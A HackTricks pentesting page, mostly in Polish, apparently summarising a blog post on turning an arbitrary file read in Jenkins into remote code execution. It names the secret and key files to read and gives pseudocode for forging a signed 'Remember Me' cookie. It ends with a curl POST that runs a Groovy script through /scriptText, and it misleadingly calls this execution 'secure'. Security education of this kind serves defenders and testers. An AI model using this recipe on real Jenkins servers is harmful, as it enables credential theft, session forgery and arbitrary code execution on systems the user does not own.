 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

W tym wpisie na blogu można znaleźć doskonały sposób na przekształcenie podatności Local File Inclusion w Jenkins w RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

To jest podsumowanie stworzone przez AI części wpisu, w której nadużywa się stworzenia dowolnego ciasteczka, aby uzyskać RCE, nadużywając odczytu lokalnych plików, aż będę miał czas, aby stworzyć własne podsumowanie:

### Wymagania wstępne ataku

* **Wymaganie funkcji:** "Zapamiętaj mnie" musi być włączone (domyślne ustawienie).
* **Poziomy dostępu:** Atakujący potrzebuje uprawnień Overall/Read.
* **Dostęp do sekretów:** Możliwość odczytu zarówno zawartości binarnej, jak i tekstowej z kluczowych plików.

### Szczegółowy proces eksploatacji

#### Krok 1: Zbieranie danych

**Pobieranie informacji o użytkowniku**

* Uzyskaj konfigurację użytkownika i sekrety z `$JENKINS_HOME/users/*.xml` dla każdego użytkownika, aby zebrać:
* **Nazwa użytkownika**
* **Ziarno użytkownika**
* **Znacznik czasu**
* **Hash hasła**

**Ekstrakcja klucza sekretnego**

* Wyodrębnij klucze kryptograficzne używane do podpisywania ciasteczka:
* **Klucz sekretu:** `$JENKINS_HOME/secret.key`
* **Klucz główny:** `$JENKINS_HOME/secrets/master.key`
* **Plik klucza MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Krok 2: Fałszowanie ciasteczka

**Przygotowanie tokena**

*   **Oblicz czas wygaśnięcia tokena:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Dodaje jedną godzinę do bieżącego czasu
```
{% endcode %}
*   **Konkatenacja danych dla tokena:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Deszyfrowanie klucza MAC**

*   **Deszyfruj plik klucza MAC:**

```javascript
key = toAes128Key(masterKey)  // Konwertuj klucz główny na format klucza AES128
decrypted = AES.decrypt(macFile, key)  // Deszyfruj plik .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Obliczanie podpisu**

*   **Oblicz HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Oblicz HMAC używając tokena i klucza MAC
tokenSignature = bytesToHexString(mac)  // Konwertuj MAC na ciąg szesnastkowy
```

**Kodowanie ciasteczka**

*   **Generuj końcowe ciasteczko:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Koduj dane ciasteczka w base64
```
{% endcode %}

#### Krok 3: Wykonanie kodu

**Uwierzytelnianie sesji**

* **Pobierz tokeny CSRF i sesji:**
* Wykonaj żądanie do `/crumbIssuer/api/json`, aby uzyskać `Jenkins-Crumb`.
* Przechwyć `JSESSIONID` z odpowiedzi, który będzie używany w połączeniu z ciasteczkiem "zapamiętaj mnie".

**Żądanie wykonania polecenia**

*   **Wyślij żądanie POST z skryptem Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Skrypt Groovy może być użyty do wykonywania poleceń na poziomie systemu lub innych operacji w środowisku Jenkins.

Przykład polecenia curl pokazuje, jak wykonać żądanie do Jenkins z niezbędnymi nagłówkami i ciasteczkami, aby bezpiecznie wykonać dowolny kod.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
